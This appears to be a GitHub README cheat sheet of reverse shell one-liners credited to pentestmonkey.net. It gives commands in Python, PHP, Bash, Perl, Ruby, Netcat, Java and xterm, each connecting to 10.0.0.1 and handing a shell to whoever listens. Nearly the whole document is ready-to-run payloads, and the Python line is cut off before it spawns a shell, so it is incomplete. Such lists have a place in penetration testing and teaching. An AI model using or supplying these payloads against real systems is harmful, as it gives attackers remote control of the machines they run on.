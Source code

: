 # Reverse Shell
It has reverse shell code of various technologies. Thanks to pentestmonkey.net

## Python

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))

## PHP

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## Bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

## PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

## Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

## Netcat

nc -e /bin/sh 10.0.0.1 1234

## Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

## xterm

xterm -display 10.0.0.1

Note: if the technology version changed these codes may not work. Please check out https://pentestmonkey.net for latest update.

Happy Hacking
